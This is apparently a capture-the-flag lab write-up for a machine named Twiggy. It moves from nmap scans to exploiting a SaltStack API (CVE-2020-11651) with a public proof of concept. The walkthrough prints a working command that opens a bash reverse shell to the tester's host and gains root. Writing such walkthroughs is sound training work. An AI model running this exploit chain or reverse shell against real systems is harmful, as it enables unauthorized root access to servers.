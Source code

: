 # Twiggy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.62
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:10 +08
Nmap scan report for 192.168.219.62
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

Did a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,53,80,4505,4506,8000 -sC -sV --min-rate 3000 192.168.219.62      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:11 +08
Nmap scan report for 192.168.219.62
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

### Salt API --> RCE

Port 8000 looked the most interesting since it was only returning JSON data. Visiting it just shows a few 'clients':

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

When we view the headers, we can see that this is using a program called Salt API:

<figure><img src="../../../.gitbook/assets/image (23) (4).png" alt=""><figcaption></figcaption></figure>

There are some exploits for Salt here:

```
$ searchsploit salt    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Oracle MySQL / MariaDB - Insecure Salt Generation Security | linux/remote/38109.pl
SaltOS - 'download.php' Cross-Site Scripting               | php/webapps/37642.txt
SaltOS Erp Crm 3.1 r8126 - Database File Download          | php/webapps/45734.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection                   | php/webapps/45731.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection (2)               | php/webapps/45733.txt
Saltstack 3000.1 - Remote Code Execution                   | multiple/remote/48421.txt
----------------------------------------------------------- ---------------------------------
```

The last one looks like the most reliable, and it works:

```
$ python3 poc.py --master 192.168.219.62 --exec 'bash -i >& /dev/tcp/192.168.45.182/80 0>&1'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.219.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: EhN8Uknfm4lWhieX13oN5C+NiHo63BzPifodAAOygyu3DL3ZUnCX4BEV9cvD/zT4NfCHQ22Hq7s=
[+] Attemping to execute bash -i >& /dev/tcp/192.168.45.182/80 0>&1 on 192.168.219.62
[+] Successfully scheduled job: 20230705031527947368
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!

